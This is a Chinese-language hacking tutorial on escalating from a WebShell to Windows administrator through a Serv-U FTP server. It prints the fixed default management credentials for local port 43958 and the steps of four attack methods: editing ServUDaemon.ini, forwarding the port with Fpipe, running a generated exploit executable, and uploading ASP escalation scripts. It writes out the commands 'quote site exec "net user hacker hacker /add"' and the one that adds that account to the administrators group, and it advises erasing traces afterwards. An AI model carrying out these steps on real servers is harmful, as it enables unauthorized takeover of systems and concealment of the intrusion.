


Serv-U 的服务进程默认会监听 IP 为 127.0.0.1 网络接口上的 43958 端口，当 Serv-U 使用它的管理客户端进行管理的时候，会自动连接这个 43958 端口。由于绑定在了 IP 为 127.0.0.1 网络接口上，所以只能在本机连接这个管理端口。当然也不是随便一个程序连接 43958 端口就认定它是管理客户端，是需要帐号和密码进行验证的，Serv-U 默认管理帐号是 LocalAdministrator，默认密码是 `"#l@#8aak#.lk;0@P"`，这个密码是固定的。

漏洞就此诞生了，如果我们可以使用这个默认的帐号和密码连接到 IP 为 127.0.0.1 网络接口的 43958 端口上，然后发送一些修改管理参数的命令，那么就可以轻松控制运行在服务器上的 Serv-U 了。

那怎么提权呢？由于 Serv-U 支持一个可以在服务器中执行 CMD 命令的功能，需要满足的条件为：必须是 Serv-U 的系统管理员权限。我们可以利用漏洞发送特定数据建立一个 Serv-U 系统管理员的帐号，然后使用 FTP 连接上去，再执行那个可以执行 CMD 命令的功能，添加一个 Windows 系统管理员，就可以通过 3389 进行连接了，当然也可以执行其它任何有权限执行的命令。这个漏洞的利用方式有很多种，包括修改 INI 配置、端口转向、执行 EXE、脚本提权等，让我们来一一地讲解。

#### 二、修改 INI 配置提权

这种方式利用起来比较简单，只需要修改那个名为 ServUDaemon.ini 的配置文件即可，此文件被保存在 Serv-U 安装程序的目录里面。默认情况下其保存路径为 `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`，不过默认只有读的权限，但是也有的管理员把 Serv-U 安装在了其它位置，如果权限设置不好的话，就可以轻松修改了。如果这个文件有修改权限的话，基本就确定可以提权了。

为了把 ServUDaemon.ini 内的内容改成我们想要的，就需要伪造一个出来，最好先在本地电脑上安装一个 Serv-U 程序，安装过程略过（很简单的，一路默认即可）。随意建立一个测试用的 FTP 域，再建立一个 FTP 用户，在“帐号”选项中将特权设置为“系统管理员”，主目录设置为“C:\”（图 3），切换到“目录访问”选项中将右侧的权限都勾选上，主要用到的就是“执行”这个权限（图 4），最后点击“应用”进行参数保存，就可以返回程序的安装目录查看 ServUDaemon.ini 的内容了（图 5）。




参数伪造完毕后，就可以打开 WebShell，访问服务器 Serv-U 的安装目录（图 6），点击 WebShell 的“编辑”按钮进入文本编辑状态，将我们伪造的参数添加进去。为了让大家更好地看清楚需要添加哪些参数进去，我将添加前和添加后的图贴出来进行对照（图 7，图 8）。这样修改后 Serv-U 就修改了管理参数，添加了你设置的 Serv-U 管理员帐号。

我们连接服务器的 21 端口，在 CMD 中输入 `FTP 192.168.10.200` 即可连接到 IP 为 192.168.10.200 的 21 端口上（图 9），接着 Serv-U 要求输入帐号的密码，将刚才添加的 Serv-U 管理员密码输入，Serv-U 返回了“230 User logged in, proceed.”，表示已经通过验证。由于用户的主目录设置为 C 盘根目录，如果服务器是 Win2003 的话需要执行 `cd windows`、`cd system32` 命令切换到系统的 SYSTEM32 目录，如果服务器是 Win2000 的话需要执行 `cd winnt`、`cd system32` 命令切换到系统的 SYSTEM32 目录。然后执行 `quote site exec "net user hacker hacker /add"`、`quote site exec "net localgroup administrators hacker /add"` 命令即可向服务器添加一个管理员帐号了。







如果不清楚终端服务开放在哪个端口的话，还可以执行 `quote site exec "netstat -an >>c:\1.txt"` 命令，将当前服务器中开放的端口全部导出到 C 盘的 1.txt 文件中，然后使用 WebShell 进行查看，最后使用远程桌面程序连接服务器即可，服务器成功提权（图 10）。


#### 三、43958 端口转向提权

如果你安装了 Serv-U 的话，在 CMD 中输入 `netstat -an`，查看里面是否在本机的“127.0.0.1”网络接口上监听了 43958 端口（图 11），那么这个 43958 端口是由哪个进程来监听的呢？它是由 Serv-U 的服务进程（ServUDaemon.exe）监听的，它有两个主要功能：1、为 FTP 用户提供文件传输服务；2、为 Serv-U 管理员提供管理接口（需要管理帐号口令验证，但是帐号口令固定）。


这样看来只要能从外部连接到这个 43958 端口，就可以提权了。但是它被绑定在服务器本机“127.0.0.1”这个网络接口上，除服务器本机外无法进行连接，怎么办呢？我们可以使用端口转向工具把绑定在“127.0.0.1”网络接口上的 43958 端口映射出来，转发到一个外部可以连接的端口上。用到的工具就是 Fpipe，它是一个源端口重定向器，可以使用你选择的源端口建立一个 TCP 或 UDP 流，可以用于穿越那些允许端口连接的防火墙从而连入内网。

首先将 Fpipe 通过 WebShell 上传到随便一个可以执行的目录，然后转到 WebShell 的“WScript.Shell 命令行操作”功能来执行命令，在“命令/参数”中输入 `d:\www\web\fpipe.exe -v -l 1234 -r 43958 127.0.0.1` 命令（图 12），然后单击“运行”按钮，这条命令的意思是将本机绑定在“127.0.0.1”网络接口上的 43958 端口转发到外部可以连接的 1234 端口上，并且返回详细连接信息。


命令执行后便可以打开 Serv-U 的管理控制端，右键点击“Serv-U 服务器”，选择“新建服务器”（图 13），然后一步步地按照 Serv-U 的提示信息填写相关的 IP、端口、管理帐号、口令等信息（图 14）。添加完毕后，双击这个添加的 Serv-U 服务器便可进行管理连接，这时候我们的端口转向工具就开始工作了，它会将从外部 1234 端口上接收到的数据原封不动地转发到绑定在“127.0.0.1”网络接口上的 43958 端口上，并且也会将返回的数据按照这个“管道”原封不动地返回。






这时我们会发现可以直接控制对方的 Serv-U 了，修改设置、添加、删除帐号等等。我们当然是添加一个 Serv-U 管理员了（图 15），并赋予他可执行的权限（图 16）。再使用 CMD 下的 FTP 工具连接到服务器执行命令即可。

#### 四、执行 EXE 提权

使用端口转向工具的时候有个致命的缺点，就是如果服务器上开启了防火墙的话，就不能私自在外网接口打开一个端口等待我们的连接，那么怎么来解决这个问题呢？

我们仔细想一下，将绑定在服务器本机“127.0.0.1”网络接口上的 43958 端口映射出来的目的就是向它发送管理数据，既然不能转发出来从外面发送数据，那么为什么不能开发一个专门向服务器本机“127.0.0.1”网络接口上的 43958 端口发送管



图16

理数据的程序呢？想法不错，但是需要分析 Serv-U 管理客户端到底发送了什么管理数据。利用数据监听工具“WinSock Expert”可以轻松的监听 Serv-U 管理客户端向 Serv-U 服务进程发送了哪些数据，然后从中分析出哪些是用来管理用户的数据。所以 EXE 提权就诞生了，牛人们编写了 N 多种功能的程序出来。起初程序中绑定了连接的端口（43958）、添加的管理员帐号、口令等信息；后来进化到了可以将连接端口（43958）、添加的管理员帐号、口令等信息作为参数；再后来进化到在添加管理员帐号后自动连接本机的 FTP 执行提权的命令。

Serv-U 提权综合工具就是这样不错的工具（图17），它可以自定义连接的端口、连接的帐号、口令、执行的命令等信息。打开工具，设置完这些信息后点击生成即可在程序目录中生成一个名为“Servu.exe”的 CMD 程序（图18），将这个程序通过 WebShell 上传到随便一个可以执行命令的目录中，转到 WebShell 的“WScript.Shell 命令行操作”功能来执行命令。



图17



图18

在“命令/参数”中输入 d:\www\web\servu.exe 命令（图19），然后单击“运行”按钮，就会将该程序的使用说明在屏幕中打印出来，直接将需要运行的命令当作参数用双引号包含起来即可，比如想添加一个帐号和口令都为 Hacker 的 Windows 帐号（图20），就输入 d:\www\web\servu.exe "net user hacker hacker /add"，然后单击“运行”按钮，稍等一小会儿就可以看到程序返回的数据，查看是否命令已成功执行。



图19



图20

生成的这个小程序的工作原理是使用在生成的时候所配置的默认管理员帐号、口令信息连接到绑定在服务器本机“127.0.0.1”网络接口上的43958端口上，添加一个临时 FTP 域（防止影响到原来的 FTP 域），然后发送分析出来的 Serv-U 管理客户端添加用户的数据（添加一个帐号和密码都为 allife 的 Serv-U 管理员帐号），然后程序是使用帐号密码都为 allife 的 FTP 用户连接 FTP 端口（一般为21端口），执行所谓程序参数的命令信息，最后删除那个添加的临时域。然后再利用这个程序将名为 hacker 的用户提升到 Windows 系统管理员，即可进行 3389 连接等操作了。

#### 五、执行脚本提权

在进行 EXE 提权的时候也有一个致命的缺点，那就是如果服务器不允许执行 EXE 文件，那么就根本谈不上连接43958端口发送管理数据了，那么该怎么办呢？再回头想想，EXE 程序执行的是什么？只是向绑定在服务器本机“127.0.0.1”网络接口上的43958端口发送管理数据而已，那么还有什么可以实现这个功能呢？也许你不会相信，其实脚本也是可以发送数据的，比如现在很多网站的采集功能等等。

如果只使用脚本进行 Serv-U 提权是不是感觉非常简单呢，而且目前流行的脚本类型基本都支持发送数据的，比如 ASP、ASPX、PHP、CGI、PL 等等。介绍第一款 ASP 类的提权脚本：Serv-U 2 admin。

首先使用 WebShell 将提权脚本上传到一个可以执行 ASP 文件的目录，然后再在 IE 中访问它，便可得到它的运行主界面（图21）。界面很简单，只需要输入默认管理员的帐号和口令、绑定在服务器上管理端口即可。这个脚本的功能有两个：一个是用来添加帐号的功能，自动添加一个 Serv-U 管理员并且给予执行权限。另一个功能则是删除添加的帐号功能，主要是用来清理尾巴。



选择 “Add User” 后，点击 “Run” 运行，脚本添加完毕后会返回这样的信息（图 22）。表示已经添加了一个名为 lake、密码为 admin123 的 Serv-U 管理员帐号。然后就可以使用 CMD 下的 FTP 工具连接上去执行你想执行的命令了，最后可别忘了清理尾巴哦！



再来看看第二款 ASP 类的提权脚本：Serv-U 提升权限 ASP版。首先使用 WebShell 将提权脚本上传到一个可以执行 ASP 文件的目录，然后再在 IE 中访问它，便可得到它的运行主界面（图 23）。这个脚本和前者最大的区别是在功能上，这个工具除了添加 Serv-U 管理员外，还可以自动的执行 CMD 命令，并且可以自定义服务器的系统路径信息。



在脚本中输入默认管理员帐号和密码、管理端口、系统路径、想执行的 CMD 命令等信息，点击 “提交” 按钮，脚本会一步步的执行操作，并且会将其显示出来，最后还会提示是否成功执行了你想要执行的 CMD 命令（图 24）。

